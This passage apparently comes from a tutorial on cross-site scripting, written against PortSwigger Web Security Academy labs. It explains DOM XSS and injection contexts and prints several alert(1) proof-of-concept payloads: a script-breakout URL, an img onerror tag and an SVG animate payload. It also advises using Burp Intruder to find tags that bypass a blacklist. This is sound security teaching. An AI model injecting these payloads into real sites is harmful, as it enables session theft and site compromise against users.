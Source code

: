 `<img src="/resources/images/tracker.gif?searchTerms=test"><script> alert(1)</script>">`

And will successfully execute the script: 

![Untitled](/img/posts/XSS/Untitled%2012.png)

![Untitled](/img/posts/XSS/Untitled%2013.png)

>Even tough we could send to a victim this url `https://0a5000570397d0ff800e307a00fe00b6.web-security-academy.net/?search=test"><script>+alert(1)<%2Fscript>` and it will be executed, this is a DOM XSS because it’s not the server that sends the malformed html document, it is the JS within the webpage that modifies the DOM .
{: .prompt-info}


## XSS context

An XSS context is the location where the attacker-controllable data is inserted and the input validation (if any) that is being performed. Based on that, one or another payload should be used to perform a successful XSS attack. 

### Between HTML tags

If it is between **HTML** tags we want to inject other tags such as: 
`<src>alert(1)</src>` or `<img src="https://idontexist.com" onerror=alert(1)>` 

If the server seems to blacklist some tags or attributes, we can use this list along with burp intruder to test all tags and attributes vulnerable to XSS and search for the ones that can bypass the blacklist: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

This list provides complex XSS payloads, for example this one: 

```xml
<svg>
	<a>
		<animate attributeName=href values=javascript:alert(1) />
		<a id=xss>
			<text x=20 y=20>XSS</text>
		</a>
	</a>
</svg>
```
